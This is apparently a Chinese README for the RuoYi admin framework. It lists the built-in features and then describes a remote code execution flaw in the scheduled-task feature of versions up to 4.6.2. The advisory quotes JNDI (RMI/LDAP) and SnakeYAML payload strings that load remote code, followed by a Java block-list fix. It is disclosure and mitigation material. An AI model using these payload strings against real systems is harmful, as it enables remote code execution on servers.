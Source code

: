 
## 内置功能

* 用户管理：用户是系统操作者，该功能主要完成系统用户配置。
* 部门管理：配置系统组织机构（公司、部门、小组），树结构展现支持数据权限。
* 岗位管理：配置系统用户所属担任职务。
* 菜单管理：配置系统菜单，操作权限，按钮权限标识等。
* 角色管理：角色菜单权限分配、设置角色按机构进行数据范围权限划分。
* 字典管理：对系统中经常使用的一些较为固定的数据进行维护。
* 参数管理：对系统动态配置常用参数。
* 通知公告：系统通知公告信息发布维护。
* 操作日志：系统正常操作日志记录和查询；系统异常信息日志记录和查询。
* 登录日志：系统登录日志记录查询包含登录异常。
* 在线用户：当前系统中活跃用户状态监控。
* 定时任务：在线（添加、修改、删除)任务调度包含执行结果日志。
* 代码生成：前后端代码的生成（java、html、xml、sql)支持CRUD下载 。
* 系统接口：根据业务代码自动生成相关的api接口文档。
* 服务监控：监视当前系统CPU、内存、磁盘、堆栈等相关信息。
* 缓存监控：对系统的缓存查询，查看、清理等操作。
* 在线构建器：拖动表单元素生成相应的HTML代码。
* 连接池监视：监视当期系统数据库连接池状态，可进行分析SQL找出系统性能瓶颈。

## 历史漏洞

* 存在远程执行漏洞 `RuoYi <= v4.6.2`

漏洞详细：

定时任务存在反序列化漏洞利用点，可以通过发送`rmi`、`http`、`ldap`请求，完成命令执行攻击。

如目标字符串具体内容`rmi`：`org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')`

如目标字符串具体内容`ldap`：`javax.naming.InitialContext.lookup('ldap://127.0.0.1:9999/#Exploit')`

如目标字符串具体内容`http(s)`：`org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/poc/yaml-payload.jar"]]]]')`

新增/修改定时任务`SysJobController.java`示例代码（屏蔽`rmi`、`ldap`、`http(s)`目标字符串）
```java
else if (StringUtils.containsIgnoreCase(job.getInvokeTarget(), Constants.LOOKUP_RMI))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串不允许'rmi://'调用");
}
else if (StringUtils.containsIgnoreCase(job.getInvokeTarget(), Constants.LOOKUP_LDAP))
{
	return error("修改任务'" + job.getJobName() + "'失败，目标字符串不允许'ldap://'调用");
}
else if (StringUtils.containsAnyIgnoreCase(job.getInvokeTarget(), new String[] { Constants.HTTP, Constants.HTTPS }))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串不允许'http(s)//'调用");
}
```
